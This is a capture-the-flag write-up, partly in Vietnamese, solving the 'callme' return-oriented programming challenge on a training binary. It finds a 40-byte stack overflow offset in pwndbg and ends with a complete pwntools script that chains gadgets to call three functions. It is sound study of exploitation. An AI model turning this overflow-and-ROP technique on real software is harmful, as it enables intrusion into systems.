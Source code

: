 # callme - challenge 3

[binary file and my exploit code](https://github.com/Hjn4Pwn/Pwn/tree/main/ROP/chall3_callme)

> Hint
>
>> You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)

```python
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/ROP/chall3_callme$ file callme
callme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e8e49880bdcaeb9012c6de5f8002c72d8827ea4c, not stripped
```

```python
pwndbg> checksec
[*] '/mnt/d/pwn_myself/ROP/chall3_callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

```cpp
int pwnme()
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  memset(s, 0, sizeof(s));
  puts("Hope you read the instructions...\n");
  printf("> ");
  read(0, s, 512uLL);
  return puts("Thank you!");
}
```

```cpp
void __noreturn usefulFunction()
{
  callme_three();
  callme_two(4LL, 5LL, 6LL);
  callme_one(4LL, 5LL, 6LL);
  exit(1);
}
```

Với hint mà đề bài cho thì ở chall này ta phải gọi đuộc 3 hàm callme() với 3 tham số tương ứng như trên.

Với checksec như trên thì chúng ta không thể dùng shellcode với **NX enable**. Thay vào đó sẽ dùng ROP với overflow.

Let's go:

```python
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
```
Ở đây ta có được địa chỉ của 3 hàm callme()

tiếp đến xem xem phải overflow bao nhiêu bytes để đến được return address:

```python
──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────
 ► 0x4008e0 <pwnme+72>             call   read@plt                      <read@plt>
        fd: 0x0 (/dev/pts/5)
        buf: 0x7fffffffe050 ◂— 0x0
        nbytes: 0x200

   0x4008e5 <pwnme+77>             mov    edi, 0x400a16
   0x4008ea <pwnme+82>             call   puts@plt                      <puts@plt>

   0x4008ef <pwnme+87>             nop
   0x4008f0 <pwnme+88>             leave
   0x4008f1 <pwnme+89>             ret

   0x4008f2 <usefulFunction>       push   rbp
   0x4008f3 <usefulFunction+1>     mov    rbp, rsp
   0x4008f6 <usefulFunction+4>     mov    edx, 6
   0x4008fb <usefulFunction+9>     mov    esi, 5
   0x400900 <usefulFunction+14>    mov    edi, 4
───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rax rsi rsp 0x7fffffffe050 ◂— 0x0
... ↓                3 skipped
04:0020│ rbp         0x7fffffffe070 —▸ 0x7fffffffe080 ◂— 0x1
05:0028│             0x7fffffffe078 —▸ 0x400887 (main+64) ◂— mov edi, 0x4009e7
06:0030│             0x7fffffffe080 ◂— 0x1
07:0038│             0x7fffffffe088 —▸ 0x7ffff7a01d90 (__libc_start_call_main+128) ◂— mov edi, eax
─────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────

```
string nhập vào sẽ được lưu ở ***0x7fffffffe050***

```python
──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────
   0x4008e0 <pwnme+72>    call   read@plt                      <read@plt>

   0x4008e5 <pwnme+77>    mov    edi, 0x400a16
   0x4008ea <pwnme+82>    call   puts@plt                      <puts@plt>

   0x4008ef <pwnme+87>    nop
   0x4008f0 <pwnme+88>    leave
 ► 0x4008f1 <pwnme+89>    ret                                  <0x400887; main+64>
    ↓
   0x400887 <main+64>     mov    edi, 0x4009e7
   0x40088c <main+69>     call   puts@plt                      <puts@plt>

   0x400891 <main+74>     mov    eax, 0
   0x400896 <main+79>     pop    rbp
   0x400897 <main+80>     ret
───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffe078 —▸ 0x400887 (main+64) ◂— mov edi, 0x4009e7
01:0008│ rbp 0x7fffffffe080 ◂— 0x1
02:0010│     0x7fffffffe088 —▸ 0x7ffff7a01d90 (__libc_start_call_main+128) ◂— mov edi, eax
03:0018│     0x7fffffffe090 ◂— 0x0

```

return address = 0x7fffffffe078

byte overflow = 0x7fffffffe078 - 0x7fffffffe050 = 40 bytes

Chall này ở chuỗi các chall dùng kỹ thuật ROP :)), nên tất nhiên ta đi tìm ROP gadget phù hợp.

Ở đây cần truyền vào 3 tham số cho 3 hàm callme, và là kiến trúc 64-bit => các tham số sẽ được lưu ở các thanh ghi tương ứng như đã nói ở các chall trước => cần Gadget pop rdi,rsi,rdx 

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/ROP/chall3_callme$ ROPgadget --binary callme | grep "pop rdi ; pop rsi ; pop rdx ; ret"
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret

```
Thêm nữa do đây là kiến trúc 64-bit như đã nói ở chall trước ta cần tránh movaps => cần *ret gadget*

***0x00000000004006be : ret***

### Exploit

```python
from pwn import *

r = process("./callme")
#gdb.attach(r, api = True)

callme1 = 0x400720
callme2 = 0x400740
callme3 = 0x4006f0

agr1 = 0xdeadbeefdeadbeef
agr2 = 0xcafebabecafebabe
agr3 = 0xd00df00dd00df00d

ret_gadget = 0x00000000004006be
pop_rdi_rsi_rdx_ret = 0x000000000040093c

agr =  p64(ret_gadget) + p64(pop_rdi_rsi_rdx_ret) + p64(agr1) + p64(agr2) + p64(agr3)

payload = b'A'*40 + agr + p64(callme1) + agr + p64(callme2) + agr + p64(callme3)

r.sendline(payload)

r.interactive()

```